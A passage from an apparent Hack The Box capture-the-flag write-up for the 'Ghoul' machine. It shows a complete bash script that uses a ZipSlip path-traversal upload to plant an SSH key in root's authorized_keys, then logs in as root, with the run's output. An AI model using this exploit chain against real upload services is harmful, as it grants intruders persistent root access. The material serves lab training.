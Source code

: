 
### Re-Exploit Zip

The site on 8080 that took my uploaded zip and processed it was the one run by
the `java` process. I had used it to write to the apache directory, and that’s
why I’m currently running as www-data. But since the ZipSlip was actually
carried out by root, I suspect I can write other files as root, and not just a
webshell. Arbitrary write is something that’s come up many times before in
HTB, and there are _tons_ of ways to get root from it. I’ll drop an ssh key
into `/root/.ssh/authorized_keys`

### Root Shell Script

I wrote a script to get a root shell on the first container. It creates a temp
directory to work out of. In there, it creates an ssh key pair, then uses my
ZipSlip script to create a zip. Then it uploads it, and connects over ssh. On
ssh disconnect, it cleans up the temp directory.

    
    
    #!/bin/bash
    
    base=$(mktemp -d)
    sshkey=${base}/key
    zip=${base}/z.zip
    
    echo "[*] Creating ssh key pair"
    ssh-keygen -b 2048 -t rsa -f ${sshkey} -q -N ""
    chmod 600 ${sshkey}
    
    echo "[*] Creating zipslip zip with public key as authorized_keys"
    ./zip_slip.sh ${zip} ${sshkey}.pub /root/.ssh/authorized_keys 10 
    
    echo "[*] Uploading zip to Ghoul"
    curl -s -X POST http://10.10.10.101:8080/upload -H "Authorization: Basic YWRtaW46YWRtaW4=" -F "file=@${zip}" | grep -q "File Uploaded Successfully" ||
        (echo "[-] Failed to upload zip" & exit)
    echo "[+] zip uploaded successfully"
    
    echo "[*] Connecting to Ghoul over SSH as root"
    ssh -i ${sshkey} root@10.10.10.101
    
    rm -rf ${base}
    
    
    
    root@kali# ./ghoul_shell.sh 
    [*] Creating ssh key pair
    [*] Creating zipslip zip with public key as authorized_keys
    Archive:  /tmp/tmp.Q8VNxuFb46/z.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
          391  2019-05-24 04:19   ../../../../../../../../../../root/.ssh/authorized_keys
    ---------                     -------
          391                     1 file
    [*] Uploading zip to Ghoul
    [+] zip uploaded successfully
    [*] Connecting to Ghoul over SSH as root
    Last login: Fri May 24 07:06:12 2019 from 10.10.14.3
    root@Aogiri:~# 
    
